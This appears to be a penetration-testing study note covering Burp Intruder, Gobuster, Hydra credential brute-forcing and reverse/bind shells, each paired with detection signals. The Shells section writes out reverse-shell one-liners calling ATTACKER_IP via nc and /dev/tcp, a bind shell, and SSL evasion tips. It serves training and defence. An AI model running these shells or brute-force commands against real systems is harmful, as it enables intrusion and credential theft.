


# 🧰 2.5 Tooling Masterclass

> [!abstract] The Masterclass
> The instruments of the trade. This chapter covers the four tools you reach for constantly during **authorized web and network assessments**: **Burp Suite** (the intercepting proxy), **Gobuster** (content/DNS/vhost brute force), **Hydra** (credential brute force), and **Shells** (turning code execution into interactive access). Each is a force-multiplier for the techniques in **Web Exploitation**. **`#level/operator`**

> [!warning] Authorized Simulation context
> These tools are used only against systems you own or are contracted to test (labs, CTFs, bug-bounty scope). Every example is an **authorized red-team simulation**; each section notes the defensive signal it generates so blue teams can detect it.

> [!tip] Chapter Map
> **** · **** · **** · ****

---

## Burp Suite

**Burp Suite** is the de-facto web-app testing proxy: it sits between your browser and the target, capturing and letting you modify every request. The core workflow:



- **Proxy** — intercept, view, and edit requests in flight; the foundation of **walking an app**.
- **Repeater** — send one request repeatedly with manual tweaks (perfect for **SQLi**/**SSTI** iteration).
- **Decoder** — encode/decode Base64, URL, hex, HTML on the fly.
- **Intruder** — automate injecting payloads into request positions.

### Intruder attack types
The **Positions** tab defines where payloads go; the attack type defines how they're distributed:

| Type | Behaviour | Best for |
| --- | --- | --- |
| **Sniper** | One payload set, one position at a time (linear) | Fuzzing a single parameter — the default |
| **Battering ram** | One payload set placed into **all** positions simultaneously | Same value in many spots; **race**-style bursts |
| **Pitchfork** | Multiple sets, one per position, advanced **in parallel** | Paired data (username↔password from a combo list) |
| **Cluster bomb** | Multiple sets, **every combination** tried | Credential spraying across users × passwords |

> **Defensive signal:** Intruder generates a burst of near-identical requests from one source — exactly what rate limiting and WAF anomaly rules should catch (**A09**).

---

## Gobuster

**Gobuster** is an open-source, Go-written brute-forcer for **web directories/files, DNS subdomains, vhosts, and cloud buckets** — fast and multi-threaded. It sits between recon and scanning.
```bash
gobuster dir -u "http://target.thm/" -w /usr/share/wordlists/dirb/small.txt -t 64
```
`dir` = directory mode · `-u` target · `-w` wordlist · `-t 64` threads (big speed-up). Each wordlist entry becomes a GET request (`/images/`, `/admin/`, …).

### Modes & key flags
| Mode | Command | Notable flags |
| --- | --- | --- |
| **Directory/file** | `gobuster dir …` | `-x php,bak,txt` extensions · `-k` skip TLS check (self-signed CTF certs) · `-s`/`-b` status allow/blocklist · `-c` cookie · `-H` header · `-r` follow redirects |
| **DNS subdomain** | `gobuster dns -d target.com -w subs.txt` | `-i` show resolved IPs · `-c` show CNAMEs · `-r` custom resolver |
| **Vhost** | `gobuster vhost -u http://target.thm …` | `--append-domain` · `--exclude-length` to filter noise |

```bash
gobuster dir -u https://target.thm/ -w common.txt -x php,txt -k -b 404 -t 50
# → /admin (Status: 301)   /backup (200)   /login.php (200)
```
Compared to **ffuf**, Gobuster is simpler; ffuf is more flexible for response-filtering. > **Defensive signal:** a flood of 404s from one IP = active content discovery; return uniform 404s and rate-limit.

---

## Hydra

**Hydra** is a parallelised **credential brute-forcer** supporting dozens of protocols (SSH, FTP, RDP, SMB, HTTP forms). The options depend on the target service. On **authorized** targets only:
```bash
# FTP
hydra -l user -P passlist.txt ftp://10.10.100.238
# SSH — -l username, -P password list, -t threads
hydra -l root -P passwords.txt 10.10.13.37 -t 4 ssh
```
`-l` single user / `-L` user list · `-P` password list / `-p` single password · `-t` threads · `-V` verbose.

### Brute-forcing a web login form
You must know the request method and the failure string (read it in **** or the Network tab):
```bash
hydra -l admin -P rockyou.txt 10.10.13.37 http-post-form \
  "/login:username=^USER^&password=^PASS^:F=incorrect"
```
- `/login` — the form's path
- `username=^USER^&password=^PASS^` — the POST body; Hydra substitutes `^USER^`/`^PASS^`
- `F=incorrect` — the string present in the response **when login fails** (Hydra stops when it's absent)

> **Defensive signal:** hundreds of failed logins from one source in seconds — the textbook trigger for **lockout + rate limiting + MFA** (**A07**, **Authentication Bypass**).

---

## Shells (Reverse & Bind)

A **shell** is interactive command access to a system. After a **command injection** or **upload** gives you code execution, a shell upgrades that foothold into a controllable session for **Privilege Escalation**, data access, and **pivoting**.



**Reverse vs bind:** a **reverse shell** has the *target* connect back to your listener — it slips past inbound firewall rules and is the default choice. A **bind shell** has the *target* listen on a port and you connect in — useful when outbound is blocked, but noisier and detectable.

### Reverse shell workflow
Set up the listener (attacker), then trigger the payload (target):
```shell-session
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
```
`-l` listen · `-v` verbose · `-n` no DNS · `-p 443` port. Pentesters pick ports like **53/80/443/445** to blend with legitimate traffic. Then deliver a payload on the target — the classic **pipe (mkfifo) reverse shell**:
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc ATTACKER_IP 443 >/tmp/f
```
The named pipe (`mkfifo`) gives two-way communication: `bash -i` runs interactively, `2>&1` merges errors, and Netcat carries the session to your listener. Other one-liners: `bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1`, Python (`pty.spawn`), and the [pentestmonkey cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

### Bind shell workflow
```bash
# On the target — listen and expose bash:
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
# On the attacker — connect in:
nc -nv TARGET_IP 8080
```
Ports below 1024 need root to bind, so 8080 avoids that.

### Better listeners & shell upgrades
A raw `nc` shell has no job control, arrow keys, or tab completion. Upgrade it:
| Tool | Why |
| --- | --- |
| `rlwrap nc -lvnp 443` | readline: arrow keys + history |
| `ncat --ssl -lvnp 443` | Nmap's Netcat — adds **SSL encryption** to evade inspection |
| `socat TCP-LISTEN:443,reuseaddr,fork -` | full-featured; pairs with a `socat` PTY on the target for a fully interactive TTY |

Full TTY upgrade after landing a `nc` shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'   # then Ctrl-Z; stty raw -echo; fg
```

> **Defensive signal:** outbound connections from a server to an odd external IP:port, or a new listening port on a host, are prime detections — egress filtering and EDR catch both. This bridges to Phase 3 post-exploitation.

---

## 🔗 Related Master Notes & Deep-Dives
- **2.3 Web Exploitation** — the flaws these tools exploit
- **2.1 Web Fundamentals** · **2.6 Network Attacks and Recon** — where recon feeds tooling
- **Privilege Escalation** — the next step after a shell
- **Networking (tcpdump (Packet Capture))** — watch your own tooling on the wire
- [[Tooling & Scripting]] — domain hub
